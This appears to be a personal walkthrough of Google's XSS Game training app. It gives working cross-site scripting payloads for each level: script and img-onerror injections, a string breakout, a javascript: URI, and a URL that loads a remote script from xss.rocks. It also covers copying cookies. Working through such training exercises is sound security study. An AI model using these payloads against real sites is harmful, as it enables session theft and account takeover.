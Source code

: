# Notes on Google's [XSS Game][1] Web App

## [Level 1](https://xss-game.appspot.com/level1)
Level 1 is vulnerable to a Reflected XSS attack. It can be exploited by injecting XSS code into either the form field or the URL. Both of these examples work if you paste them into the form field and press the Search button:

```html
<img src=x onerror="alert('xss')">
<script>alert("xss");</script>
```

Both of the above examples also work if you inject them into the URL and press the Go button (which is part of the fake browser). The only limitation I found was that code injected into the URL will not work if it has a semicolon. In the second example above, you could just omit the semicolon, since it is only a one-line script.

But the attack does work through the URL if you just URL-encode the semicolon as `%3B`. Note that you'll have to prepend your attack code with: `?query=`. So you're concatenating three separate pieces:

1. `https://xss-game.appspot.com/level1/frame`
2. `?query=`
3. `<script>alert("xss")%3B</script>`

The full URL is now:
```code
https://xss-game.appspot.com/level1/frame?query=<script>alert("xss")%3B</script>
```

## [Level 2](https://xss-game.appspot.com/level2)
Level 2 is about Stored (aka persistent) XSS. This level seems to have some filtering to prevent you from injecting `<script>` tags. But it does allow `<img>` tags. And `<img>` tags allow handlers (like `onerror`) which can contain Javascript:

```
<img src="x" onerror="alert('xss')">
```

Once that attack string is submitted through the form field, every time the page loads, our Javascript will run in the user's browser - any user - they just have to visit this page. This is why stored XSS is more dangerous than Reflected XSS.

I could not figure out a way to inject the code directly into the URL.

## [Level 3](https://xss-game.appspot.com/level3)
To get past Level 3 I had to use Safari (10.0.3) because Firefox (51.0.1) and Chrome (55.0.2883.95) both prevented the injection of a space, encoded or not, after the single quote. Here is the full URL I used to successfully pass Level 3 with Safari:
```code
https://xss-game.appspot.com/level3/frame' onerror="alert('xss')"
```
But I wanted to keep working with Firefox. So I copied Safari's cookie called "level3". To do this:

1. I configured Safari to use the Burp proxy.
1. I exploited Level 1 and 2 as described above.
1. I visited the URL for level three, with the attack code appended, as shown above. When the `alert()` popped up, the game set a new cookie called `level3`.
1. I copied the name and value of the third cookie:
```code
level1=f148716ef4ed1ba0f192cde4618f8dc5;
level2=b5e530302374aa71cc3028c810b63641;
level3=d5ce029d0680b3816a349da0d055fcfa;
```
Here's how to set a new cookie in FF or Chrome using the console in dev tools:
```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa";
```
Now you can advance to level 4 in FF or Chrome. But, unlike the other cookies set by the game, the manually-set cookie will be set to expire at the end of the session. So if you close your browser tab for `xss-game.appspot.com`, then open a new tab to that website, you'll find that you can't go to Level 4. This is because the `level3` cookie expired when the previous session ended. So the better way to manually set that cookie is to include a value for the `expires` attribute:

```javascript
document.cookie="level3=d5ce029d0680b3816a349da0d055fcfa;expires='Fri, 22 July 2022 5:34:56 GMT'";
```

You can set several other cookie attributes like this, but the [specification][2] for `document.cookie` is very detailed and specific about syntax.


## [Level 4](https://xss-game.appspot.com/level4)

For Level 4 I had to look up somebody else's answer and play with it because it was not working as they described. Eventually I found that, in all three browsers, it only worked if you input it into the input field. It would not work on the URL.
```
');alert();var b=('
```

## [Level 5](https://xss-game.appspot.com/level5)
To get through this level you have to do these in order:

1. Click on the "Sign up" link.
2. On the next page the URL will have changed to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=confirm
   ```

   In the URL, change the value of `next` from `confirm` to `javascript:alert(1)`.
3. Click the "Go" button, which is part of the fake browser. Clicking this button changes the value of the `href` for the "Next >>" link. Before you click the "Go" button, if you hover over the "Next >>" link, the target shown in the hoverbox is:

   ```code
   https://xss-game.appspot.com/level5/frame/confirm
   ```

   And in fact the `href` value is a relative link, simply `confirm`. After changing `confirm` to `javascript:alert(1)`, the URL is now set to this:

   ```code
   https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
   ```

   Click the "Go" button. Now if you hover over that same "Next >>" link, the target shown in the hoverbox is now just:

   ```
   javascript:alert(1)
   ```

   By the user having edited the URL manually, that link's `href` value had changed to the user's input.
4. Click the "Next >>" link. The alert pops up and the game sets a new cookie and displays a banner saying that you may now go on to the next level.

I think the lesson here was that if you can't inject any tags you can still inject the `javascript:` resource identifier before the actual Javascript code. I had to click on all four hints until I followed Hint 4's link to [this IETF draft](https://tools.ietf.org/html/draft-hoehrmann-javascript-scheme-00).


## Level 6
For Level 6 I had to look up the answer. It turns out that the regex was not case sensitive, so this is the successful URL:
```
https://xss-game.appspot.com/level6/frame#HTTPS://xss.rocks/xss.js
```
[1]: https://xss-game.appspot.com/
[2]: https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie
